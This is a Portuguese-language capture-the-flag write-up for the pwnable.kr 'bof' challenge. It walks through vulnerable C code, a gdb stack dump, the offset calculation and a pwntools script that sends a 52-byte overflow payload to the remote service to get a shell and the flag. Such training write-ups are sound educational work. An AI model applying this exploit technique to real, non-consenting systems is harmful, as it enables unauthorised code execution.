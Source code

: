 # Duckware Team - bof (pwnable)

###### Solved by @0xpics and @JoaoPedroPiceli

> This CTF is about pwn, buffer overflow

## Sobre o desafio

O objetivo deste desafio é proporcionar ao usuário uma compreensão profunda dos princípios de buffer overflow, capacitando-o a identificar e explorar vulnerabilidades por meio da análise de código. Além disso, o desafio visa fortalecer a habilidade de compreender o funcionamento de cada função do código, utilizando ferramentas como um debugger para uma investigação detalhada e prática.

## O Desafio

Para realizarmos esse desafio devemos executar um arquivo que o site nos provém, `overflowme`, além disso o site também nos deu uma porta nc 'pwnable.kr',9000

Ao executarmos recebemos a seginte mensagem: *"overflow me : "*. Testando inputs de diversos tamanhos sempre recebemos a mesma resposta: *Nah..*

Sem mais o que fazer, vamos para a análise do código.

## O Código

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Para explorar o buffer overflow neste código, o objetivo é sobrescrever o valor da variável key na função func para que ela se torne 0xcafebabe. Isso permitirá executar system("/bin/sh") e obter um shell.


* A função func tem um buffer overflowme de 32 bytes.
* A função gets é usada para ler a entrada do usuário, o que é perigoso porque não verifica o tamanho da entrada, permitindo um buffer overflow.
* O valor de key é comparado com 0xcafebabe. Se for igual, um shell é executado.

Para relaizarmos o buffer precisaremos construir um payload, ele será construido da seguinte maneira:

`payload = "A" * offset + "endereço de memória`

## Construindo o payload

Para conseguirmos o endereço de memória nos iremos converter 0xcafebabe para seu formato little-endian. Nós fazemos isso pois a shell que queremos acessar só é acessível através do valor da key 0xcafebabe assim como indicado no código, sua conversão para little-endian se dá pelo fato que a maioria dos sistemas baseados em arquiteturas x86/x86-64 armazenam valores multi-byte na memória no formato little-endian, assim sua conversão é necessária para que o sistema a interprete corretamente.

`payload = "A" * offset + "\xbe\xba\xfe\xca"`

Agora calcularemos o offset.

Para isso precisamos achar a função `0xdeadbeef` através da ferramenta `gdb`

Para facilitar a compressão de como achar a função, irei mostrar sequência de ações que deve ser tomada no gdb.

```
(kali㉿kali)-[~/Downloads]
└─$ gdb ./bof
GNU gdb (Debian 16.2-1) 16.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./bof...
(No debugging symbols found in ./bof)
(gdb) break func
Breakpoint 1 at 0x632
(gdb) run
Starting program: /home/kali/Downloads/bof 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x56555632 in func ()
(gdb) x/40wx $esp
0xffffcea0:     0x00000000      0xffffd18b      0x00000002      0xffffced8
0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x00000000
0xffffcec0:     0xf7fc6570      0xf7fc6000      0x00000000      0x00000000
0xffffced0:     0x00000000      0x00000000      0xffffffff      0xf7d79994
0xffffcee0:     0xf7fc0400      0x00000000      0xffffcf08      0x5655569f
0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
0xffffcf00:     0x00000000      0x00000000      0x00000000      0xf7d8cd43
0xffffcf10:     0x00000001      0xffffcfc4      0xffffcfcc      0xffffcf30
0xffffcf20:     0xf7f9de14      0x5655568a      0x00000001      0xffffcfc4
0xffffcf30:     0xf7f9de14      0x565556b0      0xf7ffcb60      0x00000000
(gdb)
```

1. Identificando o buffer `overflowme`

O buffer `overflowme` é declarado como `char overflowme[32]` na função `func`. Ele será alocado na pilha. No despejo da pilha, o buffer começa no endereço `0xffffcebc`.

2. Identificando o valor de key

No despejo da pilha, o valor `0xdeadbeef` (que é o valor de key) aparece em `0xffffcef0`:
Copy

`0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000`

Portanto, `key` está localizado em `0xffffcef0`.

3. Calculando o offset

O buffer `overflowme` começa em `0xffffcebc`. O valor de key está em `0xffffcef0`. Para calcular o offset, subtraímos os endereços:

`0xffffcef0 - 0xffffcebc = 0x34 (52 em decimal)`

Portanto, o buffer `overflowme` tem 32 bytes, mas o valor de `key` está a 52 bytes do início do buffer. Isso significa que há um espaço adicional de 20 bytes entre o final do buffer e o valor de key.

4. Criando o payload

Para sobrescrever key com 0xcafebabe, precisamos preencher o buffer overflowme (32 bytes) e os 20 bytes adicionais, totalizando 52 bytes.

O payload será:

`payload = "A" * 52 + "\xbe\xba\xfe\xca"`

## Solução

Existem várias maneiras para executar esse payload, porém a que usaremos aqui será através de um script simples de python.

```
from pwn import *

`payload = "A" * 52 + "\xbe\xba\xfe\xca"`
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
```

1.O script cria um payload que explora o buffer overflow no servidor.

2.Conecta-se ao servidor pwnable.kr na porta 9000.

3.Envia o payload para o servidor.

4.Se o payload estiver correto, o servidor executará system("/bin/sh"), e o script entrará em modo interativo, permitindo que você execute comandos no servidor.

Quando executamos esse script conseguirmos ter acesso a shell, explorando um pouco conseguimos achar o arquivo da flag, que quando damos um cat nela nos dá essa flag:

>daddy, I just pwned a buFFer :)
